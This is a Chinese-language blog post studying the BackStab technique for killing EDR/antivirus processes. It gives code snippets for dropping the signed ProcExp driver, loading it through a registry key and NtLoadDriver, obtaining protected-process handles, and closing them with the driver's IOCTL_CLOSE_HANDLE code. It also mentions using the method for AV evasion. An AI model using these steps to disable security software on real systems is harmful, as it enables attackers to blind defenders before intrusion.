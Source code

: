 ```yaml
---
layout: default
title: EdrKiller
tags: tools
---
```


## 起因

通过阅读 [BackStab](https://github.com/Yaxser/Backstab) 的源码以及简介有感，学习一下该工具的思路

根据 BackStab 的介绍，整个流程为：

> #### OpSec
>
> Here is a quick rundown of what happens
>
> 1. Embedded driver is dropped to disk
> 2. Registry key under HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services is created
> 3. The privilege SE_PRIVILEGE_ENABLED is acquired because it is necessary to load the driver
> 4. Driver is loaded using NtLoadDriver to avoid creating a service
> 5. The created Registry key is deleted (service not visible during execution)
> 6. Communication with the driver is via using DeviceIoControl
> 7. For handle enumeration, NtQuerySystemInformation is called
>
> #### What you should also know
>
> 1. The behavior of the tool mimics that of ProcExp. ProcExp drops the driver to the disk, create registry key under HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services, calls NtLoadDriver, and then delete the registry key
> 2. You can specify the location to which the driver is dropped and the service name
> 3. When done, the app will unload the driver. The driver is unloaded by first re-creating the registry keys and then calling NtUnloadDriver
> 4. The loaded driver is signed by MS
> 5. The process does not attempt to directly kill protected processes handles, it instructs ProcExp driver to kill them. You won't be accused of attempting to tamper with any processes

简而言之就是加载自带微软官方签名的 ProcExp 驱动，利用其驱动函数做到 Kill EDR 的效果。

## 过程

### ProcEXP 驱动落地

加载 ProcEXP，就需要考虑 ProcEXP.sys 文件如何落地，BackStab 是采用资源文件写入磁盘的方式，落地一个 ProcEXP 文件，然后注册注册表时使用 ProcEXP 的路径，当然还可以直接上传一个 ProcEXP.sys 文件。这里还是复现它的操作：

+ 添加资源文件 –> 导入 ProcEXP.sys

  ![image-20210627190230590](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210627190230590.png)

  ![image-20210627190242606](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210627190242606.png)

+ 操作资源文件落地

  这一套其实也是标准流程，利用操作资源的多个 API 达到释放资源的效果

  + 首先用 FindResource 函数确定资源位置

    ```c
    HRSRC FindResourceA(
      HMODULE hModule,	//NULL 表示当前模块或进程
      LPCSTR  lpName,	//MAKEINTRESOURCE(ID)
      LPCSTR  lpType
    );
    ```

  + LoadResource 加载资源到内存中。

    ```c
    HGLOBAL LoadResource(
      HMODULE hModule,
      HRSRC   hResInfo
    );
    ```

  + LockResource 检索指向内存中指定资源的指针。

    ```c
    LPVOID LockResource(
      HGLOBAL hResData
    );
    ```

  + SizeofResource 计算资源大小

    ```
    DWORD SizeofResource(
      HMODULE hModule,
      HRSRC   hResInfo
    );
    ```

  + CreateFile 和 WriteFile 达到创建和写入的目的

（这种方法应该也可以用做免杀）

![image-20210627195746188](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210627195746188.png)

### 加载驱动

作者在加载驱动这一块做了描述，为了避免创建服务，使用了 NtLoadDriver，但是 NtLoadDriver 是内核态函数，要调用的话就需要使用 ntdll.dll：

```
NT_LOAD_DRIVER NtLoadDriver = (NT_LOAD_DRIVER)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtLoadDriver");
```

NtLoadDriver 函数的参数是注册表，在加载前还需要注册一个注册表，路径为 `HKEY_LOCAL_MACHINE\\System\\CurrentControlSet\\Services\\ProcEXP`

```
status = RegCreateKeyExW(HKEY_LOCAL_MACHINE, regPath, 0, NULL, 0, KEY_ALL_ACCESS, NULL, &hKey, &dwDisposition);
status = RegSetValueEx(hKey, L"Type", 0, REG_DWORD, (BYTE*)&dwData, sizeof(DWORD));
status = RegSetValueEx(hKey, L"ErrorControl", 0, REG_DWORD, (BYTE*)&dwData, sizeof(DWORD));
status = RegSetValueEx(hKey, L"Start", 0, REG_DWORD, (BYTE*)&dwData, sizeof(DWORD));
status = RegSetValueEx(hKey, L"ImagePath", 0, REG_SZ, (const BYTE*)driverPath, (DWORD)(sizeof(wchar_t) * (wcslen(driverPath) + 1)));
```

![image-20210627211804360](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210627211804360.png)

此时再调用 NtLoadDriver 加载驱动：

![image-20210628105357376](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210628105357376.png)

### 连接驱动

ProcEXP驱动已经加载完成后，就需要连接该驱动，以便使用驱动的导出函数 Kill 进程。

```
HANDLE hProcExp = CreateFileA("\\\\.\\PROCEXP152", GENERIC_ALL, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
```

连接使用的 CreateFileA，此 API 连接驱动时，驱动名称格式默认为 `\\\\.\\DeviceName`，这里的 DeviceName 并不是 PROCEXP，通过火绒剑查看：

![image-20210628135833251](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210628135833251.png)实际连接应该为 PROCEXP152

### 获取保护进程句柄

任务管理器直接关闭 EDR 是无法关闭的：

![image-20210628145917986](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210628145917986.png)

原因就是该进程有保护进程，所以要想 Kill EDR，就需要找到保护进程，参考[这篇文章](https://www.cnblogs.com/zmlctt/p/3979108.html)，简要了解一下隐藏进程和保护进程的概念。 

使用 DeviceIoControl 获取保护进程句柄：

```
DeviceIoControl(hProcExp, IOCTL_OPEN_PROTECTED_PROCESS_HANDLE, (LPVOID)&ulPID, sizeof(ulPID),&hProtectedProcess,sizeof(HANDLE),&dwBytesReturned,NULL);
```

### 获取保护进程PID下的所有句柄

先是使用了 NtQuerySystemInformation，这个 API 可以检索系统信息，包括系统进程、线程相关，任务管理器使用的就是这个 API

```c
fNtQuerySystemInformation _NtQuerySystemInformation = (fNtQuerySystemInformation)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtQuerySystemInformation");
```

利用这个 API 获取了系统内所有句柄信息，再去与之前保护进程句柄对应的 Pid 进行比较，找到对应的句柄信息，

```c
if (handleInfo.ProcessId == dwPID) 
{
			if (i % 15 == 0)
			{
				DWORD dwProcStatus = 0;
				GetExitCodeProcess(hProcess, &dwProcStatus);
				if (dwProcStatus != STILL_ACTIVE)
				{
					return;
				}
			}
			ProcExpKillHandle(dwPID, handleInfo.Handle);
		}
```

判断成功后会调用 ProcExpKillHandle 函数，这个函数是作者自己写的，目的就是关闭这个进程的句柄以达到关闭进程的目的，也是工具的核心。

但是在这之前还有一个 i % 15 == 0 的判断，这个判断的目的是每隔 15 个 Handle 检查一次进程是不是已经关闭了，这个数字可以随便调，其目的就是为了在已经关闭进程后能停止循环。

### 利用 ProcEXP 驱动发送 关闭句柄指令

ProcExpKillHandle 函数分为两部分，后一部分是通过 DeviceIoControl 发送 IOCTL_CLOSE_HANDLE 指令，前一部分就是针对这个指令所需要的各种参数。

```
DeviceIoControl(hProcExpDevice, IOCTL_CLOSE_HANDLE, (LPVOID)&ctrl, sizeof(PROCEXP_DATA_EXCHANGE), NULL,0,NULL,NULL);
```

DeviceIoControl 的第二个参数是操作的控制代码，也就是调用驱动内函数时的调用代码，BackStab 的作者应该是已经把 ProcEXP.sys 逆完了，已经了解了关闭句柄的控制代码以及所需参数：

```c
#define IOCTL_CLOSE_HANDLE 2201288708

typedef struct _ioControl
{
	ULONGLONG ulPID;
	PVOID lpObjectAddress;
	ULONGLONG ulSize;
	ULONGLONG ulHandle;
} PROCEXP_DATA_EXCHANGE, * PPROCEXP_DATA_EXCHANGE;
```

## 结果

根据上面的过程凑吧凑吧也能凑出一个只有删除功能的 EdrKiller

以火绒举例：

![image-20210629093739324](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210629093739324.png)

![image-20210629093822512](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210629093822512.png)